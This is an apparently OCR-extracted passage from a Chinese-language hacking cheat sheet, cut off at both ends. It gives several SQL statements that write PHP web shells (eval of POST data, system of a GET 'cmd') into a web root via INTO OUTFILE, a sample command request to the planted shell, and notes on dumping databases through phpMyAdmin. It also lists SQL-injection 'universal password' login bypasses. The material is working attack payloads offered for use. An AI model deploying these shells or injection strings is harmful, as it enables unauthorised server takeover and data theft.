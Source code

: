 DROP TABLE IF EXISTS darkmoon;
拿shell第二种方法：

Create TABLE moon (darkmoon text NOT NULL);

Insert INTO moon (darkmoon) VALUES(‘<?php @eval($_POST[pass]);?>’);

select darkmoon from moon into outfile ‘d:/wamp/www/darkmoon2.php’;

Drop TABLE IF EXISTS moon;
拿shell第三种方法：

select ‘<?php @eval($_POST[pass]);?>’INTO OUTFILE ‘d:/wamp/www/darkmoon3.php’

拿shell第四种方法

select ‘<?php echo \'<pre>\’;system($_GET[\’cmd\’]); echo \'</pre>\’; ?>’ INTO OUTFILE ‘d:/wamp/www/darkmoon4.php’

127.0.0.1/darkmoon4.php?cmd=net user
找到mysql数据库，执行sql语句即可写入一句话，再菜刀连接即可。

phpmyadmin脱裤：在这里面是可以直接拖库的，如同上传php拖库脚本一样，操作差不多的。

修改mysql默认的root用户名方法:

进入phpmyadmin,进入mysql表,执行sql语句

1.update user set user=’你的新root用户名’ where user=’root’;

2.flush privileges;

例如：

用root身份登入，进入mysql库，修改user表即可。

1.use mysql;
2.mysql>update user set user=’newName’ where user=’root’;

3.mysql> flush privileges;
 
 
0x10 万能密码
 
[/b]

帐号：’ UNION Select 1,1,1 FROM admin Where ”=’

密码：1

[/b]

‘xor

‘or’=’or’

‘or”=”or”=’

‘or ‘1’=’1’or ‘1’=’1

‘or 1=1/*
 
 
0x11 批量关键词
 